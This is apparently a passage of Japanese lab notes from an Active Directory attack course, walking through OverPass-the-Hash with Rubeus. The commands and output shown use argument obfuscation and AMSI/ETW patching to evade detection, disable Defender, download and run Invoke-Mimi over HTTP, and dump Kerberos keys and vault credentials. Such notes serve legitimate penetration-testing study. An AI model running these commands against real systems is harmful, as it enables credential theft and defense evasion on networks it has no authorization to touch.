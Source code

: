 ```
           rc4_hmac_nt_exp   b38ff50264b74508085d82c69794a4d8 
           rc4_hmac_old_exp  b38ff50264b74508085d82c69794a4d8 
 [snip]
```
---
## 侵害 - OverPass-The-Hash()
- OverPassTheHashは以下のツールで実行できる。
	- Invoke-Mimi
	- SafetyKatz
	- Rubeus(これを使用する際には検出を避けるためにLoaderを使用する。)

---
## 手順(Rubeus)
1. 検出を避けるため以下のコマンドを実施
```
C:\Windows\system32>C:\AD\Tools\ArgSplit.bat 
[!] Argument Limit: 180 characters 
[+] Enter a string: asktgt 
set "z=t" 
set "y=g" 
set "x=t" 
set "w=k" 
set "v=s" 
set "u=a" 
set "Pwn=%u%%v%%w%%x%%y%%z%" 
```
---
2.  Loader.exeをかましつつRubeusを実行
```
C:\Windows\system32>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
[*] Applying amsi patch: true 
[*] Applying etw patch: true 
[*] Decrypting packed exe... 
[!] ~Flangvik - Arno0x0x Edition - #NetLoader 
[+] Patched! 
[+] Starting C:\AD\Tools\Rubeus.exe with args 'asktgt /user:svcadmin 
/aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 
/opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt' 
   ______        _ 
  (_____ \      | | 
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___) 
  | |  \ \| |_| | |_) ) ____| |_| |___ | 
  |_|   |_|____/|____/|_____)____/(___/ 
 
v2.2.1 
 
[*] Action: Ask TGT 
 
[*] Showing process : True 
[*] Username        : 9BVVCQUM 
[*] Domain          : PWF4Q38I 
[*] Password        : BUTPFQXM 
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with 
LOGON_TYPE = 9 
[+] ProcessID       : 3696 
[+] LUID            : 0x10605d1 
 
[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1) 
```

[dcorp-adminsrv]: PS C:\Users\studentx\Documents> $ExecutionContext.SessionState.LanguageMode 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1
[dcorp-mgmt]: PS C:\Users\srvadmin\Documents> $env:username 
[dcorp-mgmt]: PS C:\Users>iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
[dcorp-mgmt]: PS C:\Users> Invoke-Mimi -Command '"sekurlsa::ekeys"' 
[dcorp-mgmt]: PS C:\Users\mgmtadmin\Documents> Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"' 